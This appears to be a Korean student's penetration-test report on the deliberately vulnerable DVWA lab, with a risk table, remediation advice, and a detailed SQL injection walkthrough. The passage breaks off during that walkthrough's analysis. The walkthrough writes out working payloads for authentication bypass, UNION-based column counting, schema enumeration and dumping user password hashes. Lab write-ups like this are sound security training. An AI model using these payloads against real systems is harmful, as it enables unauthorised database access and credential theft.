








# DVWA 모의해킹 점검 보고서

| 항목 | 내용 |
|---|---|
| 문서명 | DVWA 모의해킹 점검 보고서 |
| 작성자 | 김준혁 |
| 작성일 | 2026-07-04 |
| 진단 대상 | DVWA (Damn Vulnerable Web Application) |
| 진단 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 기준 |

> 본 문서는 DVWA(Damn Vulnerable Web Application) 환경에서 수행한 주요 웹 취약점 점검·분석 결과를,  
> 주요정보통신기반시설 기술적 취약점 분석·평가 기준에 기반하여 작성한 보고서입니다.

---

## 목차

1. [개요](#1-개요)
2. [진단 항목 및 위험도 기준](#2-진단-항목-및-위험도-기준)
3. [모의해킹 결과 총평](#3-모의해킹-결과-총평)
4. [모의해킹 결과 상세 보고서](#4-모의해킹-결과-상세-보고서)
   - **핵심 취약점 6종 (전체 공개)**
   - ⭐ [4.1. SQL Injection](#41-sql-injection)
   - ⭐ [4.2. XSS (Reflected)](#42-xss-reflected)
   - ⭐ [4.3. File Upload](#43-file-upload)
   - ⭐ [4.4. Authorisation Bypass](#44-authorisation-bypass)
   - ⭐ [4.5. API Security (BOLA)](#45-api-security-bola)
   - ⭐ [4.6. File Inclusion (LFI/RFI)](#46-file-inclusion-lfirfi)
   - **나머지 12종 (요약 · 펼쳐보기)**
   - [4.7. Blind SQL Injection](#47-blind-sql-injection)
   - [4.8. Command Injection](#48-command-injection)
   - [4.9. CSRF](#49-csrf)
   - [4.10. XSS (Stored)](#410-xss-stored)
   - [4.11. XSS (DOM)](#411-xss-dom)
   - [4.12. Brute Force](#412-brute-force)
   - [4.13. Insecure CAPTCHA](#413-insecure-captcha)
   - [4.14. Weak Session IDs](#414-weak-session-ids)
   - [4.15. CSP Bypass](#415-csp-bypass)
   - [4.16. JavaScript Attacks](#416-javascript-attacks)
   - [4.17. Open HTTP Redirect](#417-open-http-redirect)
   - [4.18. Cryptography](#418-cryptography)

---

## 1. 개요

### 1.1. 목적

- 화이트해커·네트워크 보안 전문가로 성장하기 위한 실습 과정에서,
- DVWA(Damn Vulnerable Web Application) 환경에 존재하는 주요 웹 취약점을 직접 점검·분석하고,
- 발생 원인과 파급 효과를 파악하여 개선 방안을 수립함으로써 실무 수준의 모의해킹 점검 역량을 검증하기 위함입니다.

### 1.2. 진단 대상

| 대상 | 진단 도메인 | 비고 |
|---|---|---|
| DVWA | http://192.168.11.36/DVWA/ | Low 보안 레벨 기준 점검 |

### 1.3. 진단 환경

| 구분 | 내용 |
|---|---|
| 대상 | DVWA (Damn Vulnerable Web Application) |
| 보안 레벨 | Low |
| 진단 도구 | Burp Suite, sqlmap, CyberChef, Hash-identifier |
| 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 기준 |

### 1.4. 수행 인력

| 업무 | 성명 | 이메일 |
|---|---|---|
| 취약점 진단 | 김준혁 | jh0921abc@gmail.com |

---

## 2. 진단 항목 및 위험도 기준

### 2.1. 진단 항목

| Code | 취약점 진단 항목 | 위험도 | 진단 항목 설명 |
|---|---|---|---|
| SI | SQL Injection | 상 | 사용자 입력값이 SQL 쿼리에 직접 삽입되어 인증 우회, 데이터 조회·변조가 가능한 취약점 |
| BSI | Blind SQL Injection | 상 | 참/거짓 응답 차이나 응답 시간 차이를 이용해 데이터베이스 정보를 추출하는 SQL Injection 심화 취약점 |
| OC | Command Injection | 상 | 사용자 입력값이 시스템 명령어에 그대로 전달되어 임의의 OS 명령 실행이 가능한 취약점 |
| CF | CSRF | 상 | 사용자의 인증된 세션을 악용해 의도하지 않은 요청을 강제로 실행시키는 취약점 |
| XSR | XSS (Reflected) | 상 | 사용자 입력값이 검증 없이 응답 페이지에 즉시 반영되어 악성 스크립트가 실행되는 취약점 |
| XSS | XSS (Stored) | 상 | 악성 스크립트가 서버(DB)에 저장되어 열람하는 모든 사용자에게 실행되는 취약점 |
| XSD | XSS (DOM) | 중 | 서버를 거치지 않고 클라이언트 측 DOM 처리 과정에서 악성 스크립트가 실행되는 취약점 |
| BF | Brute Force | 상 | 로그인 시도 횟수 제한이 없어 무차별 대입 공격으로 계정 탈취가 가능한 취약점 |
| FU | File Upload | 상 | 업로드 파일의 확장자·콘텐츠 검증이 미흡해 웹셸 등 악성 파일 실행이 가능한 취약점 |
| FI | File Inclusion (LFI/RFI) | 상 | 파일 경로 파라미터 검증 미흡으로 내부·외부 파일을 임의로 포함(LFI/RFI)시킬 수 있는 취약점 |
| IC | Insecure CAPTCHA | 중 | CAPTCHA 검증이 서버 세션과 분리되어 있어 인증 절차를 우회할 수 있는 취약점 |
| AB | Authorisation Bypass | 상 | 서버 측 권한 검증 없이 URL 직접 접근만으로 비인가 기능에 접근 가능한 취약점 |
| SE | Weak Session IDs | 중 | 세션 ID가 예측 가능한 규칙으로 발급되어 세션 탈취가 가능한 취약점 |
| CB | CSP Bypass | 중 | CSP 화이트리스트에 포함된 외부 도메인을 악용해 콘텐츠 보안 정책을 우회하는 취약점 |
| JS | JavaScript Attacks | 중 | 클라이언트 JavaScript 로직에 보안 검증을 의존해 토큰 등을 조작당할 수 있는 취약점 |
| OR | Open HTTP Redirect | 하 | 리다이렉트 대상 URL 검증이 없어 피싱 등 외부 악성 사이트로 유도 가능한 취약점 |
| API | API Security (BOLA) | 상 | API 객체 접근 제어(BOLA)가 미흡해 타 사용자 정보에 접근 가능한 취약점 |
| CR | Cryptography | 상 | 하드코딩된 키로 취약한 암호화를 적용해 암호문 복호화가 가능한 취약점 |

### 2.2. 위험도 기준

| 평가등급 | 기준 |
|---|---|
| 상 (High) | 취약점을 통해 권한 상승 및 직접적인 관리자 권한 획득이 가능하거나, 데이터 변조·서비스 가용성에 큰 영향을 줄 수 있는 취약점 |
| 중 (Medium) | 취약점이 존재하나 즉시 권한 상승이 어려우며, 추후 공격을 통해 잠재적 위협으로 이어질 수 있는 취약점 |
| 하 (Low) | 해당 취약점으로 인해 시스템에 직접적 영향은 없으나 일부 정보를 수집할 수 있는 취약점 |

---

## 3. 모의해킹 결과 총평

- DVWA(Low 레벨)를 대상으로 모의해킹을 수행한 결과,  
  총 18개의 취약점이 발견되었습니다 (상 12건, 중 5건, 하 1건) 주요 발견 사항은 다음과 같습니다.

```
- 사용자 입력값에 대한 검증이 이루어지지 않아 SQL Injection, Command Injection, XSS 등 다수의 Injection성 취약점이 존재함
- 서버 측 권한·세션 검증 없이 URL 접근이나 클라이언트 로직만으로 인가·인증 절차를 우회할 수 있음
- 파일 업로드·포함 기능에 대한 확장자 및 경로 검증이 미흡하여 악성 파일 실행이 가능함
- 하드코딩된 암호화 키, 예측 가능한 세션 ID 등 암호화·세션 관리 체계가 취약함
```

- 권고 사항은 다음과 같습니다.
```
- 모든 사용자 입력값에 대한 서버 사이드 검증(화이트리스트, Prepared Statement 등)을 적용해야 함
- 인증·인가·CSRF 방지 로직은 반드시 서버 세션 기반으로 구현하고, 클라이언트 로직에 의존하지 않아야 함
- 파일 업로드는 확장자·MIME 타입 검증 및 실행 권한 제거를 통해 웹셸 실행을 차단해야 함
- 세션 ID는 암호학적으로 안전한 난수로 생성하고, 암호화 키는 하드코딩하지 않고 별도 관리해야 함
```

---

## 4. 모의해킹 결과 상세 보고서

**🎯 핵심 취약점 하이라이트**

18개 진단 항목 중, 파급력과 기술적 깊이가 큰 6개 취약점(4.1~4.6)을 먼저 전체 공개하며, 나머지 12개 항목(4.7~4.18)은 요약 정보(취약 코드·등급·경로)와 함께 "펼쳐보기"로 상세 내용을 확인할 수 있습니다.

| 취약점 | 증명한 것 |
|---|---|
| ⭐ [4.1 SQL Injection](#41-sql-injection) | 입력값 검증이 없으면 UNION SELECT 한 줄로 관리자 계정 정보까지 탈취할 수 있음을 증명 |
| ⭐ [4.2 XSS (Reflected)](#42-xss-reflected) | 입력값이 그대로 반영되면 피싱 이메일 한 통으로 실사용자의 세션(쿠키)까지 탈취 가능함을 증명 |
| ⭐ [4.3 File Upload](#43-file-upload) | 확장자 검증이 없는 업로드 기능은 웹셸을 통한 시스템 명령 실행(RCE)으로 직결됨을 증명 |
| ⭐ [4.4 Authorisation Bypass](#44-authorisation-bypass) | 서버 측 권한 검증이 없으면 URL 직접 접근만으로 관리자 기능에 접근 가능함을 증명 |
| ⭐ [4.5 API Security (BOLA)](#45-api-security-bola) | API 객체 접근 제어가 없으면 파라미터 값만 바꿔 타 사용자 정보를 열람 가능함을 증명 |
| ⭐ [4.6 File Inclusion (LFI/RFI)](#46-file-inclusion-lfirfi) | 외부 서버에 올린 파일 하나를 include 경로에 끼워 넣는 것만으로 원격 코드 실행(RCE)까지 이어질 수 있음을 증명 |

---

## 4.1. SQL Injection

| 항목 | 내용 |
|---|---|
| 취약 코드 | SI (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/sqli/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - SQL Injection 관련 항목 (p.693 ~ 699) |

### 취약점 개요

**점검 내용**

- 사용자 입력값이 SQL Query에 직접 포함되어 비정상적인 Query문이 실행되는지 점검합니다.
- 인증 우회, 정보 조회, 데이터베이스 구조 확인 등이 가능한지 확인합니다.

**점검 목적**

- 입력값 조작을 통한 비정상적인 SQL문 실행을 차단합니다.
- 중요 정보 유출과 관리자 권한 탈취를 방지합니다.
- 사용자 입력값 검증이 적절히 이루어지는지 점검합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.693 ~ 699)

- 본 실습에서는 DVWA의 Low 단계에서 SQL Injection 취약점을 대상으로  
  사용자 입력값에 대한 검증 없이 SQL Query가 실행되는지 확인하여 SQL Injection 취약점 존재 여부를 점검했습니다.
- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 SQL Injection 관련 항목(p.693~699)과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값이 SQL 쿼리에 그대로 삽입될 경우, 공격자가 의도하지 않은 SQL문을 실행할 수 있습니다.
- 이로 인해 데이터베이스에 비인가 접근이 가능해지고 데이터의 조회, 수정, 삭제와 같은 행위로 이어질 수 있습니다.
- 로그인 페이지에서는 인증 우회가 가능하며, 계정 정보가 저장된 테이블이 노출될 경우 관리자 계정 탈취로 이어질 수 있습니다.
- 실제 환경에서는 단순 조회에서 끝나지 않고 데이터 변조, 서비스 장애, 개인정보 유출 사고로 이어질 수 있어 위험도가 높은 취약점입니다.

---

## 판단 기준

### 양호

- 사용자 입력값 검증이 적용된 경우
- Prepared Statement를 사용한 경우
- 에러 메시지가 외부에 노출되지 않는 경우
- DB 계정에 최소 권한만 부여된 경우

### 취약

- 사용자 입력값이 SQL문에 직접 연결되는 경우
- 작은따옴표(`'`) 입력만으로 SQL 오류가 발생하는 경우
- UNION SELECT 등을 이용한 정보 조회가 가능한 경우
- 데이터베이스 구조 및 계정 정보 확인이 가능한 경우

---

## 점검 절차

1. 정상 입력 동작 확인
2. 작은따옴표 입력 시 오류 확인
3. OR 조건을 이용한 전체 조회 확인
4. ORDER BY를 통한 컬럼 수 확인
5. UNION SELECT 가능 여부 확인
6. DB / Table / Column 정보 조회
7. 계정 및 Password Hash 확인

---

## 취약점 검증 및 공격 수행

### 실습 화면

- DVWA의 SQL Injection 화면이며, User ID 값을 입력하면 해당 사용자의 정보를 조회하는 구조입니다.


---

### 동작 확인

- User ID 입력값이 SQL Query에 그대로 포함되는지 확인하기 위해 작은따옴표(`'`)를 입력했습니다.

```
'
```

  


- 소스코드를 보면 사용자가 입력한 id 값이 그대로 SQL Query문에 삽입됩니다.

```sql
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

- 작은따옴표(`'`)를 입력하면 user_id 값에 그대로 삽입되어 아래와 같은 형태가 됩니다.

```sql
WHERE user_id= ''';
```

- SQL 문법 오류가 발생하여 HTTP 500 Error가 출력됩니다.
- 따라서 입력값 검증 없이 사용자 값이 SQL Query문에 그대로 삽입되며, SQL Injection 취약점이 존재합니다.

---

### 정상 작동 확인


- user_id 값에 1을 입력하면 `admin / admin` 정보가 정상적으로 출력됩니다.
- 사용자가 입력한 값이 `WHERE` 조건에 그대로 사용되어 해당 ID의 사용자 정보를 조회하는 방식으로 동작합니다.

---

### 인증 우회 확인 (OR 조건 삽입)

- 로그인 우회가 가능한지 확인하기 위해 User ID 입력창에 아래 값을 입력했습니다.

```sql
1' or '1'='1
```


- 소스코드를 보면 사용자가 입력한 값이 그대로 SQL Query문에 삽입됩니다.
- 실제로 실행되는 SQL Query는 아래와 같은 형태가 됩니다.

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

- `'1'='1'` 조건은 항상 참(True)이므로 WHERE 조건 전체가 항상 참이 됩니다.
- 그 결과 특정 사용자 한 명만 조회되는 것이 아니라 users 테이블에 존재하는 모든 사용자 정보가 출력됩니다.
- 이는 인증 우회(Authentication Bypass)가 가능하다는 의미이며, 공격자가 정상적인 인증 절차 없이 데이터에 접근할 수 있는 매우 위험한 상태입니다.
- 입력값 검증 없이 SQL Query에 직접 값을 삽입하는 구조로 인해 SQL Injection 취약점이 명확하게 존재합니다.

---

### 컬럼 개수 확인 (UNION SELECT)

- UNION SELECT 공격을 수행하기 위해서는 기존 SELECT 문의 컬럼 개수를 먼저 확인해야 합니다.
- UNION 구문은 원본 Query와 동일한 개수의 컬럼을 가져야만 정상적으로 실행됩니다.
- User ID 입력창에 아래 값을 입력했습니다.

```sql
1' UNION SELECT 1 #
```

#### 동작 확인

```sql
SELECT first_name, last_name FROM users
WHERE user_id = '1'
UNION
SELECT 1;
```


- `SELECT 1`은 1개의 컬럼만 반환합니다.
- UNION SELECT는 기존 Query와 반드시 동일한 개수의 컬럼을 가져야 하므로 컬럼 수가 맞지 않으면 오류가 발생합니다.
- SQL 문법 오류가 발생하고 HTTP 500 Error가 출력됩니다.

---

- 다음은 User ID 입력창에 `1' union select 1,2#`를 입력합니다.

#### 동작 확인

```sql
SELECT first_name, last_name FROM users
WHERE user_id = '1'
UNION
SELECT 1, 2;
```


- 실행 결과 오류 없이 `First name: 1`, `Surname: 2`가 정상적으로 출력됩니다.
- 기존 Query의 컬럼 개수가 2개라는 것을 확인했습니다.

---

### UNION SELECT 컬럼 개수 초과 확인

- 컬럼 개수가 2개임을 재확인하기 위해 아래 값을 입력했습니다.

```sql
1' union select 1,2,3#
```

#### 동작 확인

```sql
SELECT first_name, last_name FROM users
WHERE user_id = '1'
UNION
SELECT 1, 2, 3;
```


- 기존 Query는 2개의 컬럼만 가지고 있으므로 컬럼 수가 맞지 않아 SQL 오류가 발생합니다.
- HTTP 500 Error가 출력됩니다.

---

### 컬럼 개수 확인 (ORDER BY)

- UNION SELECT 공격 전 기존 Query의 컬럼 개수를 확인하기 위해 `order by` 구문을 사용했습니다.

```sql
1' order by 2#
```

#### 동작 확인

```sql
SELECT first_name, last_name FROM users
WHERE user_id = '1'
ORDER BY 2;
```


- `order by 2`는 두 번째 컬럼까지 존재하는지 확인하는 구문입니다.
- 실행 결과 오류 없이 정상적으로 페이지가 출력되어 최소 2개의 컬럼이 존재함을 확인했습니다.

---

### order by 3 확인

```sql
1' order by 3#
```

#### 동작 확인

```sql
SELECT first_name, last_name FROM users
WHERE user_id = '1'
ORDER BY 3;
```

  


- `order by 3`은 세 번째 컬럼이 존재하는지 확인하는 구문입니다.
- HTTP 500 Error가 발생했습니다.
- 세 번째 컬럼이 존재하지 않으며, 컬럼 수가 2개라는 것을 확인했습니다.

---

### DATABASE 이름 확인

- UNION SELECT를 이용하여 현재 존재하는 Database 목록을 조회했습니다.

```sql
1' union select schema_name,1 from information_schema.schemata#
```

#### 동작 확인

```sql
SELECT first_name, last_name
FROM users
WHERE user_id = '1'
UNION
SELECT schema_name, 1
FROM information_schema.schemata;
```


- `information_schema.schemata`는 MySQL에 존재하는 모든 Database 목록을 저장하는 시스템 테이블입니다.
- `schema_name` 컬럼을 조회하여 현재 서버에 존재하는 Database 이름을 확인할 수 있습니다.
- 실행 결과 `information_schema`, `dvwa` 등의 Database가 출력되었습니다.
- 실제 사용 중인 Database 이름이 `dvwa`라는 것을 확인했습니다.

---

### Table 정보 확인

- Database 이름이 `dvwa`인 것을 확인한 후,  
  해당 Database 내부에 어떤 테이블이 존재하는지 확인하기 위해 `information_schema.tables`를 조회했습니다.

```sql
1' union select table_name, 2
from information_schema.tables
where table_schema='dvwa'#
```


- `table_schema='dvwa'` 조건을 통해 DVWA Database에 포함된 테이블만 조회했습니다.
- 실행 결과 `security_log`, `users`, `guestbook`, `access_log` 등의 테이블이 존재합니다.
- `users` 테이블은 사용자 계정 정보가 저장될 가능성이 높기 때문에 이후 계정 정보 탈취를 위한 주요 공격 대상입니다.
- 공격자는 단순히 Database 이름만 확인하는 것이 아니라, 실제로 어떤 테이블에 중요한 정보가 저장되어 있는지까지 파악할 수 있습니다.

---

### Column 정보 확인

- `users` 테이블이 주요 공격 대상이라고 판단한 후,  
  실제 어떤 컬럼에 계정 정보가 저장되어 있는지 확인하기 위해 `information_schema.columns`를 조회했습니다.

```sql
1' union select column_name, 2
from information_schema.columns
where table_name='users'#
```


- 실행 결과 `USER`, `PASSWORD_ERRORS`, `PASSWORD_EXPIRATION_TIME`, `user_id`, `first_name`, `last_name`,  
  `password`, `avatar`, `last_login`, `failed_login`, `role`, `account_enabled` 등 총 12개의 컬럼이 존재합니다.
- 특히 `USER`와 `password` 컬럼은 사용자 계정 정보와 비밀번호가 저장되는 핵심 컬럼이며,  
  `role` 컬럼을 통해 관리자 권한 여부도 식별 가능한 상태입니다.
- `last_login`, `failed_login` 등의 컬럼을 통해 로그인 이력까지 노출될 수 있습니다.
- 공격자는 단순히 테이블 존재 여부를 확인하는 것이 아니라, 실제 민감한 정보가 저장된 컬럼까지 식별할 수 있으며, 이후 계정 탈취 및 권한 상승 공격으로 이어질 수 있습니다.

---

### 계정 정보 조회

- 확인한 `user`, `password` 컬럼을 대상으로 실제 사용자 계정 정보를 조회했습니다.

```
1' union select user, password from users#
```


- 실행 결과 `admin`, `gordonb`, `1337`, `pablo`, `smithy` 등의 사용자 계정 정보가 출력됩니다.
- 함께 출력된 값은 평문 비밀번호가 아닌 MD5 형태의 해시(Hash) 값으로 저장된 Password입니다.
- SQL Injection 취약점을 이용하여 관리자 계정을 포함한 사용자 계정 정보가 외부에서 직접 조회됩니다.
- 실제 환경에서는 해당 해시 값을 크래킹하여 관리자 계정 탈취 및 추가적인 권한 상승 공격으로 이어질 수 있습니다.

---

## 취약점 분석

- User ID 입력값이 검증 없이 SQL Query문에 그대로 삽입됩니다.
- 작은따옴표(`'`) 하나만 입력해도 SQL 문법 오류가 발생하며 HTTP 500 Error가 출력됩니다.
